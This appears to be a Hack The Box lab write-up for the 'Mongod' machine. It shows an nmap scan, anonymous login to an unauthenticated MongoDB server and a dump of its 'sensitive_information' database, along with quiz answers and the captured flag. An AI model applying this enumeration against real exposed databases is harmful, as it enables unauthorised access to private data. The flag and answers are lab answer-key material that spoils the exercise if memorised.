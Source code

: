 #mongodb #databases #reconnaissance #misconfiguration #anonymous-access 

# 0. Theory

MongoDB is a document-oriented NoSQL database.
In a document-oriented NoSQL database, the data is organized into a hierarchy of the following levels:
- databases
- collections
- documents

Databases make up the top level of data organization in a MongoDB instance. Databases are organized into collections which contain documents. Documents contain literal data such as strings, numbers, dates, etc. in a JSON-like format.

It often happens that the database server is misconfigured to permit anonymous login which can be exploited by an attacker to get access to sensitive information stored on the database. Mongod is a Linux box that features a MongoDB server running on it which allows anonymous login without a username or password. We can remotely connect to this MongoDB server using the mongo command line utility and enumerate the database.

Instead of using tables and rows like in traditional relational databases, MongoDB makes use of collections and documents. Each database contains collections which in turn further contain documents. Each document consists of key-value pairs which are the basic unit of data in a MongoDB database. A single collection can contain multiple documents and they are schema-less meaning that the size and content of each document can be different from each another.
![[Pasted image 20240828112815.png]]


**What type of database is MongoDB?**
*NoSQL*

**What is the command name for the Mongo shell that is installed with the mongodb-clients package?**
*mongo*

**What is the command used for listing all the databases present on the MongoDB server?**
*show dbs*

**What is the command used for listing out the collections in a database?**
*show collections*

**What is the command used for dumping the content of all the documents within the collection named flag in a format that is easy to read?**
`db.flag.find().pretty()`


# 1. Recon

Verify target and its availability.

	┌─[eu-starting-point-vip-1-dhcp]─[10.10.14.26]─[scrage@htb-fwwncs60gy]─[~]
	└──╼ [★]$ ping 10.129.68.95
	PING 10.129.68.95 (10.129.68.95) 56(84) bytes of data.
	64 bytes from 10.129.68.95: icmp_seq=1 ttl=63 time=8.09 ms
	64 bytes from 10.129.68.95: icmp_seq=2 ttl=63 time=8.48 ms
	64 bytes from 10.129.68.95: icmp_seq=3 ttl=63 time=8.36 ms
	64 bytes from 10.129.68.95: icmp_seq=4 ttl=63 time=7.93 ms
	^C
	--- 10.129.68.95 ping statistics ---
	4 packets transmitted, 4 received, 0% packet loss, time 3002ms
	rtt min/avg/max/mdev = 7.929/8.216/8.483/0.218 ms

# 2. Enumeration

For port scanning, we will be using the following flags for nmap:
	-p- : This flag scans for all TCP ports ranging from 0-65535
	-sV : Attempts to determine the version of the service running on a port
	--min-rate : This is used to specify the minimum number of packets that Nmap should send per second; it speeds up the scan as the number goes higher

	┌─[eu-starting-point-vip-1-dhcp]─[10.10.14.26]─[scrage@htb-fwwncs60gy]─[~]
	└──╼ [★]$ nmap --min-rate=1000 -p- -sV 10.129.68.95
	Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-28 04:34 CDT
	Nmap scan report for 10.129.68.95
	Host is up (0.0088s latency).
	Not shown: 65533 closed tcp ports (reset)
	PORT      STATE SERVICE VERSION
	22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
	27017/tcp open  mongodb MongoDB 3.6.8
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
	
	Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
	Nmap done: 1 IP address (1 host up) scanned in 13.69 seconds

The scan reveals that the server is running SSH on port 22, and mongodb on port **27017**.

## Connecting to MongoDB
In order to connect to the remote MongoDB server running on the target box, we will need to install the mongodb utility.
On Debian-based linux distributions (like Kali, Ubuntu, Parrot):

	curl -O https://fastdl.mongodb.org/linux/mongodb-linux-x86_64-3.4.7.tgz

Then extract the contents of the tar archive file using the `tar` utility.

	tar xvf mongodb-linux-x86_64-3.4.7.tgz

Navigate to the location where the `mongo` binary is present.

	cd mongodb-linux-x86_64-3.4.7/bin

Let's try to connect to the MongoDB server running on the remote host as an anonymous user.

	./mongo mongodb://{target_IP}:27017

	┌─[eu-starting-point-vip-1-dhcp]─[10.10.14.26]─[scrage@htb-fwwncs60gy]─[~/mongodb-linux-x86_64-3.4.7/bin]
	└──╼ [★]$ ./mongo mongodb://10.129.68.95:27017
	MongoDB shell version v3.4.7
	connecting to: mongodb://10.129.68.95:27017
	MongoDB server version: 3.6.8
	WARNING: shell and server versions do not match
	Welcome to the MongoDB shell.
	For interactive help, type "help".
	For more comprehensive documentation, see
		http://docs.mongodb.org/
	Questions? Try the support group
		http://groups.google.com/group/mongodb-user
	Server has startup warnings: 
	2024-08-28T09:27:39.967+0000 I STORAGE  [initandlisten] 
	2024-08-28T09:27:39.967+0000 I STORAGE  [initandlisten] ** WARNING: Using the XFS filesystem is strongly recommended with the WiredTiger storage engine
	2024-08-28T09:27:39.967+0000 I STORAGE  [initandlisten] **          See http://dochub.mongodb.org/core/prodnotes-filesystem
	2024-08-28T09:27:41.360+0000 I CONTROL  [initandlisten] 
	2024-08-28T09:27:41.361+0000 I CONTROL  [initandlisten] ** WARNING: Access control is not enabled for the database.
	2024-08-28T09:27:41.361+0000 I CONTROL  [initandlisten] **          Read and write access to data and configuration is unrestricted.
	2024-08-28T09:27:41.361+0000 I CONTROL  [initandlisten] 

We see that we have successfully connected to the remote MongoDB instance as an anonymous user.
We can list the databases present on the MongoDB server using the `show dbs;` command.

	~> show dbs;
	admin                  0.000GB
	config                 0.000GB
	local                  0.000GB
	sensitive_information  0.000GB
	users                  0.000GB

We can select a db with the `use` command to enumerate further.

	~> use sensitive_information;
	switched to db sensitive_information

We can list down the collections stored in the `sensitive_information` database using the `show collections` command.

	~> show collections
	flag

There is a single collection named `flag` . We can dump the contents of the documents present in the `flag` collection by using the `db.collection.find()` command. Let's replace the collection name `flag` in the command and also use `pretty()` in order to receive the output in a beautified format.

	~> db.flag.find()
	{ "_id" : ObjectId("630e3dbcb82540ebbd1748c5"), "flag" : "1b6e6fb359e7c40241b6d431427ba6ea" }
	~> db.flag.find().pretty()
	{
		"_id" : ObjectId("630e3dbcb82540ebbd1748c5"),
		"flag" : "1b6e6fb359e7c40241b6d431427ba6ea"
	}


https://www.hackthebox.com/achievement/machine/2057492/501
![[Pasted image 20240828115426.png]]